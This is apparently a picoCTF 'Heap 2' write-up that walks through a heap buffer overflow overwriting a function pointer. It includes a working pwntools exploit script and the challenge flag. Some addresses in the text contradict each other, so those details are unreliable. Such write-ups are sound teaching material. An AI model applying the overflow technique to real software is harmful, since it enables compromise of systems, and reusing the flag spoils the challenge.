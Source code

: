 ```yaml
---
layout: post
title:  "Heap 2"
description: Utilizing a buffer overflow payload to override pointers
date:   2024-10-22
tags: ["Medium", "Buffer Overflow", "Binary Exploitation"]
category: [CTF,picoCTF]
---
```


## Challenge Info
Can you handle function pointers? Download the binary [here](https://artifacts.picoctf.net/c_mimas/49/chall). Download the source [here](https://artifacts.picoctf.net/c_mimas/49/chall.c).

Additional details will be available after launching your challenge instance.

## Understanding chall.c

The code for your convenience:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64

int num_allocs;
char *x;
char *input_data;

void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}

void check_win() { ((void (*)())*(int*)x)(); }

void print_menu() {
    printf("\n1. Print Heap\n2. Write to buffer\n3. Print x\n4. Print Flag\n5. "
           "Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {

    printf("\nI have a function, I sometimes like to call it, maybe you should change it\n");
    fflush(stdout);

    input_data = malloc(5);
    strncpy(input_data, "pico", 5);
    x = malloc(5);
    strncpy(x, "bico", 5);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("[*]   Address   ->   Value   \n");
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", x, x);
    fflush(stdout);
}

int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

- Defines a constant for the max size of the flag string (`FLAGSIZE_MAX`).
- Two char pointers are declared: `x` is used to store a string, `input_data` stores user input- each being 5 bytes of size.
- A `win()` function is declared. It reads the flag from a file (`flag.txt`) and prints it for us. It uses a buffer to store said flag, and ensures that it doesn't exceed `FLAGSIZE_MAX`
- A `check_win()` is declared. It executes a function at the address stored in the `x` pointer.
- The `init()` function allocates memory for `input_data` and `x`, and initializes them with the strings "pico" and "bico" respectively.
- The `write_buffer()` function asks the use for input, which the function will then store in `input_data` using `scanf` (recall that `scanf` is unsafe, as it does not check for buffer overflows).


## Vulnerabilities
There's several vulnerabilities to note:
- The `write_buffer()` function is using `scanf` to read user input. `scanf` is unsecure and can be overflowed.
- The `input_data` and `x` buffer are allocated to hold only 5 bytes (4 bytes and then a null character)
- The `check_win()` function executes code at the memory address being stored in `x`.


## Connecting to the netcat listener
```terminal
> nc mimas.picoctf.net 55662

I have a function, I sometimes like to call it, maybe you should change it

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 1
[*]   Address   ->   Value
+-------------+-----------+
[*]   0x18572b0  ->   pico
+-------------+-----------+
[*]   0x18572d0  ->   bico

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice:
```
Again, `pico` and `bico` are the values inside the buffers (`input_data` & `x` respectively) that were declared at the start. Again, the reason they're declared to be 5 bytes, is to leave 1 byte for the null character.

Just like last time, we're given the addresses. The only thing that's different is that these are buffers instead of variables. Again, we'll subtract the address of `pico` with the address of `bico`.

`0x22b82b0 - 0x22b82d0 = -0x20`. When ran through [cyber chef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')To_Decimal('Space',false)&input=LTB4MjA) (from hex to decimal) we get a value of 32. And because like last time, our initial hex value was negative, this means that `input_data` is 32 bytes behind `x`.


## The Plan

We now know that `input_data` is 32 bytes behind `x`. Additionally, we know that the `check_win()` function executes a function at the address stored in the `x` pointer. Finally we know that if a `win()` function is declared, it'll read us the flag.

*So, in short, we want to:* overflow to reach the `x` pointer, and then get it to hold a value identical to the address of the `win()` function, so that when `check_win()` is automatically ran, instead of executing *'bico'* at `x`, it will execute `win()`- thus giving us our flag.

## Solution

Before we write our payload, we need to know the address corresponding to `win()`. A simple [objdump](https://man7.org/linux/man-pages/man1/objdump.1.html) will reveal this:

```terminal
> objdump -d ./chall | grep win
00000000004011a0 <win>:
00000000004011f0 <check_win>:
```

We now know that `win()` is at `0x080484b6`. **However**, because of C's memory layout, we need to consider C's memory layout. C uses a little-endian system to ensure that the least significant bytes are placed first. Because of this, we want to input the address of `win()` in little-endian order.

Our payload should look something like this:

```py
from pwn import *

# Connect to the remote service
p = remote("mimas.picoctf.net", 53827)

# Construct the payload
payload = b"AAAA" * 8 + b"\xa0\x11\x40\x00\x00\x00\x00\x00"

# Send option '2' to allocate the object
p.sendline(b"2")

# Wait for the server to ask for the buffer input
p.recvuntil(b"buffer:")

# Send the constructed payload
p.sendline(payload)

# Wait for the next prompt (choice menu)
p.recvuntil(b"choice:")

# Send option '4' to check for win condition
p.sendline(b"4")

# Print the final output (possibly the flag)
print(p.recvall())
```

flag: `picoCTF{and_down_the_road_we_go_dde41590}`
